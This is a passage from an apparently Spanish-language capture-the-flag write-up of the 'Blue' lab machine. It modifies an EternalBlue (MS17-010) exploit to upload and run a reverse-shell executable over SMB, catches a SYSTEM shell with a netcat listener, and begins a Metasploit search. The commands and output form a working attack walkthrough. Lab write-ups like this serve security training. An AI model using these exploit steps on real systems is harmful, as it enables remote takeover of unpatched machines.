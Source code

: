 * Modificando el Exploit con algunos datos:
```bash
USERNAME = 'guest'
ANTES: smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py') 
DESPUES: smb_send_file(smbConn, '/Path_Donde_Esta_El_Reverse_Shell/eternal-blue.exe' 'C', '/eternal-blue.exe')
.
ANTES: service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
DESPUES: service_exec(conn, r'cmd /c c:\eternal-blue.exe')
```

Una vez ya listo, vamos a activar una **netcat** que es ahí donde se conectara el script y luego lo activamos:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Activando script:
```bash
python2 Exploit_Blue.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
...
Done
```

* Resultado en **netcat**:
```
nc -nvlp 443
listening on [any] 443 ...
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```
Excelente, ya solamente nos falta probar con el **Metasploit Framework**.

<h2 id="exploit3">Probando EternalBlue en Metasploit Framework</h2>

Primero debemos entrar a la consola de **Metasploit** y buscaremos el Exploit **eternal blue**:
```bash
msfconsole

search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
